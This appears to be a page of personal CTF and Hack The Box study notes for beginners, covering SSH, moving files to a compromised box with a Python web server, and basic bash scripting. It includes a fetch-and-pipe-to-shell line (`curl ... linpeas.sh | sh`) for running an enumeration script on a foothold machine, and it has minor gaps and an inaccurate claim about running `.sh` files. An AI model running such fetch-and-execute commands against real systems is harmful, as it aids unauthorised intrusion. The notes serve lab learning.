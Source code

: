 # Fundamental Skills
Here are some of the things I consider fundamental to CTFs, Hack the Box-esque challenges, and web hacking.

Skills include knowing how to transfer files between computers, crack passwords, remotely access a machine, run reconnaisance scans, analyse HTTP requests, and script with bash or python.

Each skill links to a more detailed entry in the cheatsheets, and some even have links to practical example where the skills have been used on a box or challenge.

Start here if you are a complete beginner!

## Remote Access to a Computer

### SSH

SSH means 'secure shell', and is one of the most fundamental ways of remotely accessing another computer.

SSH access is controlled by keys, using public-key cryptography. 'Hosts' make themselves

The SSH protocol also powers many other tools and services, such as [[Linux Networking#Secure Copy]] and port forwarding.

**Basic Syntax**

```bash
ssh [user@]IP_ADDRESS
```

The `user@` portion is optional, and specifies a specific user you would like to connect as. The default is usually `root`, but this can vary depending on a host's ssh config.

## Filesharing Between Computers

There are many situations when you may want to transfer a file to a remote host. The most common example I can think of is when uploading an enumeration script to a machine you have gained a foothold on.

### Python Webserver

This is one of the easiest methods of file transfer. It involves starting a basic HTTP server on your machine and using this to serve files to a remote computer.

```bash
$ python3 -m http.server
```

By default, this listens on port 8000. You can change the port by specifying an unused port number after the command:

```bash
$ python3 -m http.server [PORT]
```

If you want to listen on a priveleged port (<1000) you must run with root priveleges. Running on port 80 or 443 is a common use case, as they are the default ports for HTTP/S, and sometimes target machines will only communicate on one of these default ports.

```bash
$ sudo python3 -m http.server 80
```

**Communicating with the Server**

You can then make a request to this server from a remote box. For example, using `curl`:

```bash
$ curl [IP]:[PORT]/example.txt
```

Or `wget`:

```bash
$ wget [IP]:[PORT]/example.txt
```

This will request the file `example.txt` from your host machine, and download it to the box. The choice of command depends on what is installed on the box.

You can also pipe the results of a `curl` directly to a shell. This is useful for running a script such as linpeas.

```bash
$ curl [IP]:[PORT]/linpeas.sh | sh
```

Make sure to kill your server when you are done. It is also good practice to start your server in a directory without any sensitive files in it - just the scripts you want to upload.

See [[Aliases#Useful Aliases|Useful Aliases]] for the `enumserve` alias, which starts a Python Server in a preset directory that is full of juicy scripts.

## Scripting & Programming

### sh/bash

Any command you can run in a unix command line, you can run in a bash script.

To create a bash script, add the `#!/bin/bash` shebang to a file, then write whatever commands you want to the file using a text editor. For example:

```bash
echo '#!/bin/bash' > bash_script
```

contents of `bash_script`:

To execute it, make it executable:

```bash
chmod +x bash_script
```

Then run it:

```bash
bash bash_script
```

**sh**

`sh` scripting is similar, but doesn't require a shebang. Just write commands to any file with the `.sh` extension, and execute the file:

```bash
echo 'ls -la' > list-files.sh
./list-files.sh
```
